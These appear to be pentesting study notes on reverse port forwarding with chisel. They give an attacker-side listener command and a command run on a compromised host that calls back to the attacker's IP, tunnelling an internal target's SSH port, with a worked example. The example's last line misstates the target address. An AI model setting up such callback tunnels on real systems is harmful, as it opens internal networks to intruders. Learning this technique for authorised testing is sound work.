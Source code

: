 This is where we connect back from a compromised box to create the forward.

On our attacking box we set a listener for compromised box to connect to:
`./chisel server -p LISTEN_PORT --reverse &`

On the compromised box:
`./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &`

Remember `LOCAL_PORT` is the port we wish to open on our attack box to link with the desired target port

---

## example
**attack ip: ** 172.16.0.20
**compromised ip:** 172.16.0.5
**target:** 172.16.0.10 port 22

`./chisel client 172.16.0.20:1337 R:2222:172.16.0.10:22 &`
This will forward **172.160.10:22** to **port 2222** on our machine



